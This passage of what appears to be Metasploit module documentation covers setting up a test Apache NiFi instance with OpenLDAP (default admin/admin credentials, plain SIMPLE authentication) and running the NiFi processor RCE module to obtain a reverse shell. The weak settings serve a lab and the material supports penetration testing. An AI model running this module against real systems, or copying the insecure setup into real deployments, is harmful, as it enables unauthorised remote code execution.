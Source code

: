     restrictions" and close the panel.
20. Run OpenLDAP on the system. An easy way is to run `docker run --name my-openldap -p 389:389 -p 636:636 -d osixia/openldap`. This comes
    preconfigured with a user of `admin` with the password `admin`
21. Edit the `nifi.properties` file in the `conf` directory:
    1. Replace the line `nifi.security.user.login.identity.provider=` with `nifi.security.user.login.identity.provider=ldap-provider`.
22. Edit the `login-identity-providers.xml` file in the `conf` directory:
    1. Uncomment the`<provider>` element containing the  `ldap-provider` settings.
    2. Replace `<property name="Authentication Strategy">START_TLS</property>` with
       `<property name="Authentication Strategy">SIMPLE</property>`.
    3. Replace `<property name="Manager DN"></property>` with `<property name="Manager DN">cn=admin,dc=example,dc=org</property>` what you
       put here must match **exactly** what you use in step 6, including capitalisation and whitespace.
    4. Replace `<property name="Manager Password"></property>` with `<property name="Manager Password">admin</property>`.
    5. Replace `<property name="Url"></property>` with `<property name="Url">ldap://127.0.0.1</property>`.
    5. Replace `<property name="User Search Base"></property>` with `<property name="User Search Base">dc=example,dc=org</property>`.
    5. Replace `<property name="User Search Filter"></property>` with `<property name="User Search Filter">cn={0}</property>`.
23. Restart NiFi by running  `./bin/nifi.sh restart`.
24. NiFi will be available over HTTPS (**on the local machine only**) on port 9443 (be patient, NiFi takes some time to start).
25. Ensure that you can access the web UI and authenticate using the username `admin` and password of `admin`. Remember that in step 12 you
    may have needed to forward the port to the local machine. In order to be prompted for credentials, you must not authenticate using the
    certificate like you did in step 12. You may have to take steps to prevent your browser from automatically submitting the certificate,
    such as restarting the browser. A message will be displayed saying that you do not have permission to access the webUI. This is
    expected, and indicates that NiFi does recognise the account.

#### Useful links

[NiFi Getting Started](https://nifi.apache.org/docs/nifi-docs/html/getting-started.html) (including installation on Windows/Linux/Unix).

[NiFi Walkthroughs](https://nifi.apache.org/docs/nifi-docs/html/walkthroughs.html) (including installation on Unix and enabling HTTPS).

[NiFi, Authentication and Authorization](https://ijokarumawak.github.io/nifi/2016/11/15/nifi-auth/) (configuring LDAP authentication).

## Verification Steps
1. Install the application.
1. Start msfconsole.
1. Do: `use exploit/multi/http/apache_nifi_processor_rce`.
1. Do: `set rhosts <ip address of NiFi host> `.
1. Do: `set lhost <ip address of metasploit machine`.
1. If necessary, do: `set rport <port of NiFi API>`.
1. If necessary, do: `set ssl true`.
1. If necessary, do: `set username <NiFi username>`.
1. If necessary, do: `set password <NiFi password>`.
1. If necessary, do: `set target 1` (this sets the target to Windows instead of Unix).
1. Do: `run`.
1. You should get a shell.
